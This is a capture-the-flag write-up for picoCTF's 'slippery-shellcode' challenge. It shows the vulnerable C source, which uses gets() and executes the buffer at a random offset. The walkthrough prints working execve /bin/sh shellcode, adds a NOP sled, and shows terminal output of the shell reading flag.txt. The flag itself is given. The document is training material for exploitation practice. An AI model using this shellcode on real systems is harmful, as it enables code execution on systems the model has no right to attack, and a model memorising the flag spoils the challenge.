 
# Binary Exploitation - slippery-shellcode (200 points)

## Challenge

*This [program](./vuln) is a little bit more tricky. Can you spawn a shell and use that to read the flag.txt? You can find the program in /problems/slippery-shellcode_0_7440dd178b8f0686410008ac1268d808 on the shell server. [Source](./vuln.c).*

```C
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <sys/types.h>

#define BUFSIZE 512
#define FLAGSIZE 128

void vuln(char *buf){
  gets(buf);
  puts(buf);
}

int main(int argc, char **argv){

  setvbuf(stdout, NULL, _IONBF, 0);
  
  // Set the gid to the effective gid
  // this prevents /bin/sh from dropping the privileges
  gid_t gid = getegid();
  setresgid(gid, gid, gid);

  char buf[BUFSIZE];

  puts("Enter your shellcode:");
  vuln(buf);

  puts("Thanks! Executing from a random location now...");

  int offset = (rand() % 256) + 1;
  
  ((void (*)())(buf+offset))();


  puts("Finishing Executing Shellcode. Exiting now...");
  
  return 0;
}
```

## Flag

picoCTF{sl1pp3ry_sh311c0d3_2dd645d1}

## Walkthrough

This challenge is the same that "Handy-shellcode" except that a random offset is added to your payload pointer:

```C
int offset = (rand() % 256) + 1;
((void (*)())(buf+offset))();
```

Hence, if we use the same shellcode as "handy-shellcode" we end with a segfault because the pointer to our function won't start at it's beginning, but somewhere random inside the shellcode:

```bash
m3oow@pico-2019-shell1:/problems/slippery-shellcode_0_7440dd178b8f0686410008ac1268d808$ (echo -en "\x31\xc0\x31\xdb\x31\xc9\x31\xd2\x50\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89\xe3\xb0\x0b\xcd\x80\x00\x2e\x73\x68\x73\x74\x72\x74\x61\x62\x00\x2e\x74\x65\x78\x74"; cat -) | ./vuln
Enter your shellcode:

1�1�1�1�Phn/shh//bi��
                    ̀
Thanks! Executing from a random location now...

Segmentation fault (core dumped)
```

But we can use the NOP instruction so that even with an offset, the call to `buf+offset` will just "slip" to our shellcode:

```bash
m3oow@pico-2019-shell1:/problems/slippery-shellcode_0_7440dd178b8f0686410008ac1268d808$ (echo -en "\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x31\xc0\x31\xdb\x31\xc9\x31\xd2\x50\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89\xe3\xb0\x0b\xcd\x80\x00\x2e\x73\x68\x73\x74\x72\x74\x61\x62\x00\x2e\x74\x65\x78\x74"; cat -) | ./vuln
Enter your shellcode:

��������������������������������������������������������������������������������������������������������������������������1�1�1�1�Phn/shh//bi��
                                                                                                                                              ̀
Thanks! Executing from a random location now...
ls
flag.txt  vuln  vuln.c
cat flag.txt
picoCTF{sl1pp3ry_sh311c0d3_2dd645d1}
```
